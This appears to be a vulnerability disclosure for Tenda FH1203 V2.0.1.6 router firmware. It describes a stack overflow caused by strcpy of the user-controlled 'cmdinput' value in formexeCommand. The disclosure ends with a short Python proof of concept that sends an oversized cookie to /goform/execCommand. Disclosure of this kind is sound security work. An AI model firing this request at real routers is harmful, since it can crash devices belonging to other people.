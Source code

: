 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2495.html

## Affected version

FH1203 V2.0.1.6

## Vulnerability details

The Tenda FH1203 V2.0.1.6 firmware has a stack overflow vulnerability in the `formexeCommand` function. The `src` variable receives the `cmdinput` parameter from a POST request and is later assigned to the `v7` variable, which is fixed at 512 bytes. However, since the user can control the input of `cmdinput`, the statement `strcpy(v7, src);` can cause a buffer overflow. The user-provided `cmdinput` can exceed the capacity of the `v7` array, triggering this security vulnerability.

![image-20240319224459247](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319224459247.png)

![image-20240319224448337](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319224448337.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://%s/goform/execCommand"%ip
cookie = {"Cookie":"cmdinput=" + "A"*1000}
ret = requests.get(url=url,cookies=cookie)
print(ret.text)
```

![image-20240320012159891](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320012159891.png)